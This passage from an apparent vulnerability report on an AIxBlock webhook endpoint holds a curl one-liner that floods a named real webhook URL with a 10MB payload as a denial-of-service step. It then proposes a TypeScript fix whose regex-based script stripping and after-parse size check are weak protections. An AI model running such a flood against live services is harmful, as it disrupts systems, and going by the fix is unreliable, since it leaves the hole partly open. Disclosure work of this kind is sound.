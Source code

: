### Step 3: DoS Attack via Large Payload
```bash
# Generate large payload
python3 -c "
import json
payload = {'data': 'A' * 10000000}  # 10MB payload
print(json.dumps(payload))
" | curl -X POST \
  -H "Content-Type: application/json" \
  -d @- \
  https://webhook.aixblock.io/v1/webhooks/flow-id
```

## Recommended Fix

### Immediate Fix
```typescript
async function convertBody(
    request: FastifyRequest,
    projectId: string,
    flowId: string,
): Promise<unknown> {
    const body = request.body
    
    // ✅ FIXED: Add payload size validation
    const payloadSize = JSON.stringify(body).length
    const MAX_PAYLOAD_SIZE = 1024 * 1024 // 1MB limit
    
    if (payloadSize > MAX_PAYLOAD_SIZE) {
        throw new Error('Payload too large')
    }
    
    // ✅ FIXED: Add content sanitization
    const sanitizedBody = sanitizePayload(body)
    
    // ✅ FIXED: Add schema validation
    if (!validateWebhookSchema(sanitizedBody)) {
        throw new Error('Invalid webhook payload schema')
    }
    
    return sanitizedBody
}

function sanitizePayload(payload: unknown): unknown {
    if (typeof payload === 'string') {
        // Remove potentially malicious content
        return payload
            .replace(/<script[^>]*>.*?<\/script>/gi, '')
            .replace(/javascript:/gi, '')
            .replace(/on\w+\s*=/gi, '')
    }
    
    if (Array.isArray(payload)) {
        return payload.map(sanitizePayload)
    }
    
    if (typeof payload === 'object' && payload !== null) {
        const sanitized: Record<string, unknown> = {}
        for (const [key, value] of Object.entries(payload)) {
            // Sanitize keys
            const sanitizedKey = key.replace(/[^a-zA-Z0-9_]/g, '')
            sanitized[sanitizedKey] = sanitizePayload(value)
        }
```